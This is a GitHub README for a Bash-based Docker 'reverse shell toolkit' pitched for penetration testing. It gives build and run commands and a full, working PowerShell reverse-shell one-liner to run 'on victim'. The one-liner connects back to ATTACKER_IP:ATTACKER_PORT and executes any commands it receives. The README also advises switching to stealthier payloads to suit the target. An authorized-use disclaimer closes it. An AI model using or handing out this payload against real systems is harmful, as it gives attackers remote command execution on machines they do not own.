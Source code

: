 # 🐚 Docker Reverse Shell Toolkit

![Docker Logo](https://www.docker.com/wp-content/uploads/2022/03/horizontal-logo-monochromatic-white.png)

This project provides a **simple and modular Bash-based Reverse Shell Docker container** for penetration testing and red team simulations. It allows you to spawn reverse shells with ease and minimal setup. Output and logs are mounted to host for easy access.

---

## 📦 Docker Setup

### Build the Docker Container
```bash
docker build -t reverse-shell .
```

### Run the Container (Interactive Shell)
```bash
docker run -it --rm \
  -v $(pwd)/logs:/app/logs \
  reverse-shell
```

---

## 🔁 Reverse Shell Payloads

### 💻 PowerShell (on victim)
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"
```

Replace `ATTACKER_IP` and `ATTACKER_PORT` accordingly.

---

## 📁 Volumes & Output

Logs and reverse shell outputs are stored in the `logs/` directory which is bind-mounted from the host:
```bash
-v $(pwd)/logs:/app/logs
```

---

## 🔐 Best Practices

- Always use this in authorized environments.
- Run in isolated VM or container networks for safety.
- Use encrypted channels if handling sensitive payloads (e.g., `socat`, `openssl`).

---

## 📥 Output Location
- All outputs go to `./logs` on the host machine.

---

## 🛠️ Example Interactive Prompt
When you run the container, you'll be prompted to enter the attacker's IP and Port:
```bash
Enter Attacker IP:
Enter Attacker Port:
```

This spawns a reverse shell using Bash.

---

### 🧠 Tip
You can also modify the reverse shell payload to use `socat`, `openssl`, or other more stealthy options depending on the target.

---

> ⚠️ This is for **authorized testing only**. Unauthorized use is illegal and unethical.

